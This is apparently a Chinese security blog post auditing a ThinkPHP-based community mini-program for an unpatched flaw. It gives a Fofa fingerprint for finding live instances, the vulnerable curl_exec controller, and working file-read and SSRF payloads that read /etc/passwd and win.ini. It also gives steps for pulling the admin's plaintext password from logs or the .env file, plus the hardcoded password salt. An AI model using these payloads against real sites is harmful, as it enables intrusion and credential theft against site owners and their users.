 #  某客圈子社区小程序审计(0day)   
Mstir  星悦安全   2024-06-07 18:39  
  
0x00 前言  
  
**█ 纸上得来终觉浅，绝知此事要躬行 █**  
********  
  
**Fofa:"/static/index/js/jweixin-1.2.0.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIuxXY71ASTpTONmUEkHg89FlqLoGc9aPggGYicMgSkfictf94eKZFC4Pkibg/640?wx_fmt=png&from=appmsg "")  
****  
****  
**该程序使用ThinkPHP 6.0.12作为框架，所以直接审计控制器即可.****其Thinkphp版本较高，SQL注入不太可能，所以直接寻找其他洞.**  
  
0x01 前台任意文件读取+SSRF  
  
**在 /app/api/controller/Login.php 控制器中，httpGet方法存在curl_exec函数，且传参可控，导致任意文件读取+SSRF漏洞，非常经典的洞.**  
```
public function httpGet($url) {
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
  curl_setopt($curl, CURLOPT_TIMEOUT, 500);
  curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
  curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
  curl_setopt($curl, CURLOPT_URL, $url);
  $res = curl_exec($curl);
  curl_close($curl);
  return $res;
  }
```  
Linux Payload:```
/index.php/api/login/httpGet?url=file:///etc/passwd
```  
  
****  
**Windows Payload:**  
```
/index.php/api/login/httpGet?url=file:///C:/windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIux8oCM02TicoLnliaK9vyv1BjyuQicpHHzeLEMkbCuCgQUdLhX1S1ArnECg/640?wx_fmt=other&from=appmsg "")  
****  
**需要查看绝对路径的话直接随便输一些东西让网站报错即可，开了debug的，或者点击网站右下角的Thinkphp图标，能看到绝对路径**  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIux8qgWrZoro7ibxLVU3jOanfOMBzQ5OHkyUVJotK6UxliaiaNiag3gwCtX0A/640?wx_fmt=other&from=appmsg "")  
**可以直接读取log文件 /runtime/admin/log/single.log 或者数据库文件/.env 这里能直接看到管理员明文密码的(大概率).******  
  
他的密码加密方式比较特殊 两层md5加盐  
```
/**
 * 密码加密函数
 * @param $password
 * @return string
 */
function xn_encrypt($password)
{
  $salt = 'xiaoniu_admin';
  return md5(md5($password.$salt));
}
